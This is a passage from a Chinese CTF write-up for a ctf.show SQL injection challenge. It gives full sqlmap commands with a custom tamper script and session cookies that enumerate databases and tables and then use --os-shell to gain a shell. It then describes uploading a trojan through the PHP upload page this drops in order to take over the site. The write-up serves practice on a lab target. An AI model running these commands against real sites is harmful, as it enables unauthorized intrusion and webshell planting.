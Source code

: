 过滤了空格，星号...没改？

上一题payload打一下，可以用。但是没有flag的表，这题提示考察`--os-shell`

```bash
# 爆数据库 ctfshow_web
sqlmap -u "https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/index.php"--method=put --data="id=1" --headers="Content-Type: text/plain"--cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper show-web212.py --dbs 
# 爆表 ctfshow_user
sqlmap -u "https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper show-web212.py --dbs -D ctfshow_web --tables
```

使用`--os-shell`一键getshell

```bash
sqlmap -u "https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper show-web212.py --os-shell
```

默认会写入php文件上传的功能，具体木马由你自己生成

![upload](/medias/show-sql/upload.png)

上传木马，一键日站


## web 214  时间盲注
